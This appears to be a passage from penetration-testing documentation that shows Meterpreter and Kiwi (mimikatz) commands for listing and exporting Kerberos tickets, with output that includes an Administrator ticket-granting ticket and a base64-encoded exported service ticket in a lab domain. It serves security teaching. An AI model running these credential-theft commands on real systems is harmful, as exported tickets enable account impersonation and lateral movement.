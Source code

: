 ```
	   Client Name  (01) : Administrator ; @ EXAMPLE.COM
	   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000017 - rc4_hmac_nt
	     07137dd7d5b801ef8b05c73380b18701
	   Ticket            : 0x00000017 - rc4_hmac_nt       ; kvno = 0	[...]

```

Tickets in the current session can be viewed like so:
```

meterpreter > kerberos_ticket_list
[+] Kerberos tickets found in the current session.
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/16/2022 3:35:41 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : krbtgt/EXAMPLE.COM @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
```

### Export Service Tickets
```
meterpreter > kiwi_cmd kerberos::list /export

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
====================
doIGMDCCBiygAwIBBaEDAgEWooIFQTCCBT1hggU5MIIFNaADAgEFoQ0bC0VYQU1Q
TEUuQ09NoiIwIKADAgECoRkwFxsFaHR0cHMbDlRTVFdMUFQxMDAwMDAwo4IE+TCC
BPWgAwIBF6EDAgECooIE5wSCBOOXS27UukalvG17W4ooeRkYa+BducQ/I4v3rrcU
lFusUgvV5HuoeJLg5YIPyLCqRHTzi/+jDhIecl2g7/UiW0hOvEEIPT6txowk0xqj
ngCmzUuYWfNnsSjfitCwyppITdwhy0ZaXyz5AbYfP+Y0P/vUw32RXibkdX+Sje/s
MGmBIINt6pSPZZhxPWu0ANt+ATCXXgsA6RXuSzafh6J/N5eMUK/wn02u6B3VG+S7
KlyZzsVyOoWU2WlkbRu5CPsrCSQzXQMFPU5NU2fJduvRuv7LoKavVIrqNBQFnLox
VRoIdNA1rRmfW5MVz3LBX/LDbdUZQIQnQHKL7Heu/d666CW8ce+ZY/DeLQAlNZdc
Ew6N0BFng5SYNhcN/V7uw5sbliDyhCw9lTNIiNm1cTIx9/iOlGqvfl3SsrZXDGkP
T3ADzF+Wu1ih2nN7fEyVr5qDbnRuk2f0MQQWVtaHg/mbJkEBmrLW4zvgUxmCAHZM
wAV2OAxbTRp8UnkUqStBju2bf07FV9tAQx+noxoPideNAu1N9v3+5tornl1tw/gD
bwTDUtfjv/Yr8J57fOdgt3XiTbNwz4KPVGpGeWtLy9RUlPJGR+t6ABgsDA84aR9M
q3lxh3PJLXVXwfA7huMyAE6Gx1GscnFYljxgsE6+oSGfp78jTM/+pSRe7npkg26p
XfLO4psmwoxI397RB5QSDHLwxqNb9lGpR4k7hDBC4M+eQC294KObumEGXw8r0gl5
EyCFQ7cMWuTHop/p7W9RxwRAcP7TO77SxEalSPhHkw/yF6dvjwyb7bBOFFrnQIX/
K5liIf/aAJGeibHV4ZKWsdINwJMBgxaktstsY0FAQCuhGyxI8Fq1Kb4yQ+pHWizE
JwTANxl/f5bxZNqWrZXSoVxIFJljK/rykXT+IgoGCMAStXnteRVVyu3ha3dTUoEG
3umpXJq5f1k9cZylsVssoyR3brFgdQwXoBkHQallLam0zncN7ALzEE1s7ckB6TQH
1ZAWGYGhq1CBam82AQFQywcsiyh6+JSHJbVCFCght72hN9Yc/UUbYpj8rhu9i7RA
e/05ZtTpOzJFFz2wod5qoE3oouB6LQnEs/MNGNVKWEKBcvNQfSB92i4V04eo81FW
c6Iyv4YeOTkF0lUnmXzPsUbmaoC9ECTzrehhPjtQsRzZCo4TKIHmQtSmUPmi7HNf
vPHoTao4LOehTVFOSX0/lvH6WWg1CLnpNB78BG6DD4SHlyBoqA4UBnovhP3cs/Oz
tEna/LNeofpzLJVlcISQWeqHaIP8eZWiLrQzftj6MCFUZ9oenYejdSIOdj68mkS/
J0HdHeQbomVIp8q8iSzd9CYbbtFVTL4WUYD0P5znLwePcqxoqChw2kXsc1P7Aa9I
TQS3UHvMN2fE99ucHtgYyW+iqxSppTsF0spGDBwDe3WzHoeMi2Uw5M3mSNRDzyeJ
fhf5SDp6G8QIFNghxnW28AArGF5cPwRJXLizdmI90CMumOc1Ag4EfoN4YJLiGTRz
```